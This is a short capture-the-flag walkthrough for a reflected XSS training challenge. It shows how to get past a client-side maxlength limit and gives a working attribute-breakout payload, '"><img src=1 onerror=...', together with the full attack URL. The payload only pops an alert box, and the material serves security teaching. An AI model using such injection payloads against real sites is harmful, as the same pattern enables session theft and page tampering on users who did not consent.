 # Challenge #2 - Poema Reading Club 3

URL: http://2.challenge.xss.site

## Objectives

- You should prove them wrong and demonstrate how you can still run JavaScript code in one of the vulnerable user input channels.

## What you will learn

- How to bypass simple client-side input validation
- How to perform basic XSS exploitation

## Hints

- XSS Reflected

## Steps

Open the challenge page.

http://2.challenge.xss.site/

This time, the term input has a maxlength of 10 characters.

Source:
<input type="text" name="term" id="search-text" value="" maxlength="10" />

Add anything on search input and click on go.

Search term: example

Search url:
http://2.challenge.xss.site/search.php?term=example

Looking in the source code you will find the term reflected as below.

```
<img src="images/404.png" title="example">
```

To show the alert box we need send the follow payload.

```
"><img src=1 onerror="alert(document.domain)
```

Just add the payload to the search url replacing your search term.

```
http://2.challenge.xss.site/search.php?term="><img hidden src=1 onerror="alert(document.domain)
```